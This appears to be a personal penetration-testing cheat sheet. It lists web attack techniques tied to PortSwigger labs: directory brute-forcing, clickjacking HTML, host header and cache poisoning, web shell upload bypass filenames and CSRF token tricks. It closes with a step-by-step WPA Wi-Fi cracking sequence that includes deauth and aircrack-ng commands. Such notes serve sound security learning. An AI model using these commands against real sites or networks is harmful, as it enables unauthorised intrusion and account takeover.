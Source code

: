 # CIA
	Integrity : data only change by auth.
	Avalability : Avalable data when user need.
	Confidentility : Data access by auth.
  
# Containt Discover
	dirb https://domain.com/ /usr/share/wordlists/dirb/big.txt
	gobuster -u http://fakebank.com -w wordlist.txt dir 
		
# directory Traversal
	dirb https://domain.com/ /usr/share/wordlists/wfuzz/vulns/dirTraversal-nix.txt
	
# ClickJacking
https://numberless-holddown.000webhostapp.com/clickjacking.php?url={url}
or
		
		<!DOCTYPE html>
		<html lang="en">
		<head>
		  <meta charset="UTF-8">
		</head>
		<body>
		  <iframe src="{url}" frameborder="0"></iframe>
		</body>
		</html>

# Host Header Poisoning
## Basic
	Change "Host" header 

## via middleware (for password reseting)
	Add X-Forwarded-Host: <domain.com>
	https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware
	
## via dangling markup
	Try "Host: domain.com" to "Host: domain.com:attacker.com"
	https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup

# Web Caches Poisioning
## Via an unkeyed header
	This lab supports the X-Forwarded-Host header. 
	https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header
	
# RCE
## Basic
	Upload Php File
	
## via Content-Type restriction bypass
	Change "Content-Type" header
	https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass
	
## via path traversal
	Change file name "test.php" to "..%2ftest.php"
	https://www.youtube.com/watch?v=4R3PUhiFzS4
	
## via obfuscated file extension
	change file name filename="exploit.php%00.jpg"
	https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension
	
## via race condition
	https://www.youtube.com/watch?v=mt0BN5pYHXI
	https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition
	
# No Rate Limit
## via brute force
	send request to intruder
## via Race Condition
	Send request to turbo
	add "race.py" payload
	add "test: %s" header in header
# CSRF
## CSRF parameter is not available
	---> generate CSRF POC and try

## CSRF parameter available 

	-> Change action METHOD (GET OR POST)

	-> Remove CSRF parameter
	eg. email and CSRF
	remove CSRF
	now> email

	-> enter own CSRF taken and send to victim (CSRF token one time use so, create fresh token everytime after use. For testing use inco mode. for more read paragraph.)



	1)  Open Burp's browser and log in to your account. Submit the "Update email" form, and intercept the resulting request.
	    Make a note of the value of the CSRF token, then drop the request.
	2) Open a private/incognito browser window, log in to your other account, and send the update email request into Burp Repeater.
	3) Observe that if you swap the CSRF token with the value from the other account, then the request is accepted.
	4) Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab. Note that the CSRF tokens are single-use, so you'll need to include a fresh one.
	    Store the exploit, then click "Deliver to victim" to solve the lab.


	->if CSRF key cookies and CSRF token are available

	https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie 

	->if header error occure
	1) so try remove header
	https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present

	2) if header remove not work try changing domain like
	refrer: http://google.com
	to
	http://burpsuit/?google.com
	https://portswigger.net/web-security/csrf/lab-referer-validation-broken



# Wifi Password Hacking
	

	Step 1:

	Put your wireles lan card on monitor mode

	 airmon-ng start "wireless lan card name"
	=> airmon-ng start wlan0

	Step 2:

	Capture Traffic with Airodump-ng

	airodump-ng "wireless lan card monitor mode"

	=> airodump-ng wlan0mon


	Step 3:

	Focus airodump-ng on one AP on One Channel

	 airodump-ng --bssid dummy -c dummy --write WPAcrack wlan0mon

	=> airodump-ng --bssid 8C:FD:18:88:79:68 -c 9 --write WPAcrack wlan0mon


	Step 4:

	in order to capture the encrypted password we need to have the client authenticate against AP.
	we do deauth signal to client

	 aireplay-ng --deauth 1000 -a bssid wlan0mon

	=> aireplay-ng --deauth 1000 -a 8C:FD:18:88:79:68 wlan0mon


	Step 5:

	Now we have to crack the dump file with aircrack-ng

	 aircrack-ng WPAcrack-01.cap -w (localtion of wordlist)
